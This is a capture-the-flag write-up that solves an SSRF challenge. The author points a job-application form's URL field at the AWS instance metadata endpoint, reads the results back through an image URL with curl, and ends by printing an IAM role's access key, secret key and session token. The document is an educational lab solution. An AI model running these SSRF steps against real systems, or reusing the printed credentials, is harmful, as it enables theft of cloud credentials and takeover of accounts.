


### Objective 10, "Now Hiring" / "IMDS Exploration"



This task is about Server-Side-Request-Forgery, where an attacker is able to force the server to
invoke a request, while the attacker is able to influence the URL of the request.
This can be used to reach internal network resources like AWS metadata, which are normally blocked
for the attacker. 

But first we talk to Noxious O. D'or in Jack's Bathroom from whom we learn about
the IMDSv1 Metadata of AWS and that you can drill down in the API in a REST style. See 
the [official documentation](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-dynamic-data-retrieval.html)
from AWS.

So let's fill out the apply form with our data. We notice that we can set an URL as
part of our job application.

Let's begin with "http://169.254.169.254/latest/meta-data/iam/"


The server responded with an html page, but the embedded image is unrenderable. Very suspicious.



Let's examine the URL of the embedded image. It is: https://apply.jackfrosttower.com/images/Oliver%20Michels.jpg

So, we curl this URL in a shell:

```
> curl https://apply.jackfrosttower.com/images/Oliver%20Michels.jpg
info
security-credentials/%
```

Hmm, let's dive down into security-credentials. Therefore we must change our SSRF URL to:
"http://169.254.169.254/latest/meta-data/iam/security-credentials/"

Again, we get a unrenderable image in the result page. Notice the server overwriting the file 
contents from previous requests.

```
> curl https://apply.jackfrosttower.com/images/Oliver%20Michels.jpg
jf-deploy-role%
```

And finally we arrive at our new attack URL
"http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role"


```
> curl https://apply.jackfrosttower.com/images/Oliver%20Michels.jpg
{
	"Code": "Success",
	"LastUpdated": "2021-05-02T18:50:40Z",
	"Type": "AWS-HMAC",
	"AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
	"SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
	"Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
	"Expiration": "2026-05-02T18:50:40Z"
}
```

That's it, we got the secret AWS credentials. There is also a very good 
[blogpost](https://blog.appsecco.com/server-side-request-forgery-ssrf-and-aws-ec2-instances-after-instance-meta-data-service-version-38fc1ba1a28a) 
on this topic.
